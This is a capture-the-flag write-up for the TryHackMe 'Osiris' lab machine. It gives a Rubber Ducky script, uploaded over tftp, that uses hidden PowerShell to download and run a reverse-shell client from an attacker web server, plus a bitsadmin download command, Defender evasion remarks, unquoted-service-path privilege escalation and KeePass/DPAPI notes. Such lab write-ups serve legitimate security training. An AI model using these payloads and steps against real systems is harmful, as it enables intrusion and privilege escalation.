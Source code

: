 # Osiris - WIP

https://tryhackme.com/room/osiris

Rated "INSANE"

The machine won't respond to scans, but as the description says, tftp is open. This first requires that you have a tftp client, on the attack box install using `sudo apt install tftp`, then connect using `tftp <targetip>`, however first we need a script.

To exploit rubberducky, I used the script below. This uses [reverse_ssh](https://github.com/NHAS/reverse_ssh), my revshell of choice, which is typically ignored by windows defender and other protection mechanisms.

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -W hidden
ENTER
DELAY 3000
STRING Invoke-WebRequest http://10.10.80.36:1234/client.exe -outfile c:\windows\temp\c.exe
ENTER
DELAY 3000
STRING c:\windows\temp\c.exe
ENTER
```

I put the above in a file named `script`, then connected over tftp and ran `put script` to put it in place. For this to work, a local webserver on port 1234 allows client.exe to be downloaded, and I got a shell connection in seconds.

On the machine as `alcrez` the first flag is in their desktop folder. Downloading further files (e.g. obfuscated winpeas or other exploit tools) can be done with `bitsadmin.exe /transfer /Download /priority Foreground http://10.10.80.36:1234/w.exe c:\windows\temp\w.exe`, or using tftp if that floats your boat.

To privesc to system, a few things can be picked up from local enumeration:

- there is a folder at c:\scripts, that contains a vbs file and a cmd file. The vbs file seems to do nothing, but appears to relate to a local service (details next), while the cmd file downloads a zip file to c:\temp, extracts it, then force copies its contents to `c:\program files\ivpn client`.
- there is a local service named `ivpn service` that executes the ivpn client. notably this service uses an unquoted path, and so if you could get an exe named ivpn into program files or into the ivpn folder, you could hijack the service.
- the service runs as system, but as the user alcrez you have the rights to restart the service.

Presumably the vbs script that seems to do nothing triggers whatever is needed to run the extract and copy operation. This can be tested by putting any arbitary file into c:\temp, running the vbs, and observing that file is now inside the program files vpn folder. The path to privesc is thus: create a valid service binary that will give you a rev shell and avoids defender, put that in c:\temp, run the vbs script and finally restart the service to trigger the binary.

To exploit this, I used bitsadmin to download a service binary (specifically my own [unquoted](https://github.com/ChrisPritchard/unquoted)) that would run my reverse shell payload. I placed this in c:\temp with the name IVPN.exe, then ran `c:\scripts\update.vbs`. Finally I restarted the service with `restart-service -displayname "ivpn*"`. This triggered the revshell and I got a session as NT AUTHORITY/SYSTEM. The second flag was in the user chajoh's desktop folder.

The final flag is in a keepass database under documents for the user chajoh. This DB is set so the user can access it using their logon information (e.g. no password), which means it can't be opened unless we have an interactive session as the user chajoh.

The problem is there is no active session for chajoh to hijack, so we would need their password to login. We can extract an ntlm hash, but its unbreakable. We can force change the password using our admin session, but that would invalidate the keepass encryption meaning we would no longer be able to open the db. The intended solution is to use the ntlm hash of the user plus the domain DPAPI master key (extracted from the domain controller in prior rooms, Ra or Ra2) to generate a new key for keepass so it can be opened properly.
